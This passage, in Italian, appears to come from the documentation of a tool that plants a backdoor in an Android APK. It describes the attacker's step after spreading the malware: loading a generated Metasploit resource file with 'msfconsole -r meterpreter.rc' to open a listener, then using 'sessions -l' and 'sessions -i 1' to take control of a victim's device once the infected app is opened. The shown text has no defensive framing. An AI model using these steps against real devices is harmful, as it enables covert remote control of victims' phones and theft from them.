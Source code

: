 [.text-center]
"`__Attivazione della backdoor__`"

L'attaccante, una volta condiviso il malware, attiva una shell su una propria
macchina che intercetti i pacchetti inviati dal malware. In questo modo,
l'attaccante può essere aggiornato sullo stato del malware e controllare a
distanza i dispositivi delle vittime, sfruttando la _backdoor_ creata.

L'attivazione della shell avviene sfruttando i comandi forniti da framework
**Metasploit**. Nello specifico, è necessario attivare una console mediante il
comando `msfconsole` e configurare l'exploit e il payload da utilizzare.

Il tool sviluppato semplifica questa operazione creando un file di
configurazione per la console del framework **Metasploit**. Tale file è
memorizzato nella cartella in cui il comando è stato eseguito, in parallelo al
file APK infetto. Tale file, memorizzato come `meterpreter.rc` può poi essere
utilizzato semplicemente con un comando:

[source,shell]
--------------
msfconsole -r meterpreter.rc
--------------

Questo comando avvierà la shell di Metasploit e attiverà l'exploit in
background. Quando una vittima aprirà l'applicazione, l'attaccante sarà
avvertito della creazione di una nuova sessione e potrà avviare l'interazione
con pochi comandi:

[source,shell]
-------------
sessions -l # List all sessions
sessions -i 1 # Interact with session 1
-------------

Il primo comando non è in realtà necessario: questo serve solo a ottenere una
lista di sessioni avviate in modo da poterne leggere l'ID da utilizzare nel
secondo comando (che avvia realmente la comunicazione con il device target).
